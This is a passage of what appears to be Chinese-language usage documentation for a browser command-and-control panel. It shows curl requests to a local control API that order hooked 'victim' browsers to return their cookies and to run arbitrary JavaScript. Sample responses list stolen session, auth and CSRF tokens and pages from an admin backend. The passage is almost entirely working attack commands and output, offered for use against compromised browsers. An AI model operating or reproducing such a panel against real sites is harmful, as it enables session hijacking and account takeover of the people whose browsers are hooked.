 ### 示例 2: 向所有靶机发送 Cookie 提取命令
```bash
curl -X POST "http://localhost:8088/api/commands" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "cookie"
  }'

# 响应示例:
{
  "status": "success",
  "message": "命令执行完成，收到 2 个结果",
  "data": {
    "command": "cookie",
    "results": [
      {
        "client_id": "victim_123",
        "command": "cookie", 
        "result": "session_id=abc123; auth_token=xyz789",
        "url": "https://site1.com",
        "timestamp": 1640995200
      },
      {
        "client_id": "victim_456", 
        "command": "cookie",
        "result": "user_id=789; csrf_token=def456", 
        "url": "https://site2.com",
        "timestamp": 1640995201
      }
    ],
    "count": 2
  }
}
```

### 示例 3: 在指定靶机执行 JavaScript
```bash
curl -X POST "http://localhost:8088/api/clients/victim_123/commands" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "eval",
    "args": {
      "code": "document.title"
    }
  }'

# 响应示例:
{
  "status": "success", 
  "message": "命令执行完成，收到 1 个结果",
  "data": {
    "command": "eval",
    "target_id": "victim_123",
    "results": [
      {
        "client_id": "victim_123",
        "command": "eval",
        "result": "管理后台 - 用户管理", 
        "url": "https://admin.target.com/users",
        "timestamp": 1640995200
      }
    ],
    "count": 1
```